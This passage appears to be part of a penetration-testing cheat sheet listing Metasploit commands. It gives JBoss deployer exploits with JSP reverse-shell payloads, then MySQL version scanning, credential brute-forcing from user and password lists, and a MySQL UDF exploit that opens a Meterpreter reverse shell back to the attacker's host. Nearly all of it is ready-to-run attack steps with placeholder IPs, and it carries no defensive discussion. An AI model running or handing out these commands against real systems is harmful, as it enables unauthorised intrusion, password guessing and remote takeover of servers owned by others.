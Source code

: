 **Exploit (pick one per finding)**

```text
# Main Deployer
use exploit/multi/http/jboss_maindeployer
set RHOSTS <ip>
set RPORT 8080
set TARGETURI /
set PAYLOAD java/jsp_shell_reverse_tcp
set LHOST <your_ip>
exploit

# DeploymentFileRepository
use exploit/multi/http/jboss_deploymentfilerepository
set RHOSTS <ip>
set RPORT 8080
set TARGETURI /
set PAYLOAD java/jsp_shell_reverse_tcp
set LHOST <your_ip>
exploit
```

---

### A.4 MySQL (Weak/Found Creds → Code Exec)

**Detect creds / version**

```text
use auxiliary/scanner/mysql/mysql_version
set RHOSTS <ip>
run
use auxiliary/scanner/mysql/mysql_login
set RHOSTS <ip>
set USER_FILE users.txt  # or: set USERNAME root
set PASS_FILE passwords.txt
set STOP_ON_SUCCESS true
run
```

**Exploit (UDF payload after creds)**

```text
use exploit/multi/mysql/mysql_udf_payload
set RHOST <ip>
set USERNAME <user>
set PASSWORD <pass>
set PAYLOAD windows/meterpreter/reverse_tcp   # or linux/* accordingly
set LHOST <your_ip>
set LPORT 4444
exploit
```

---
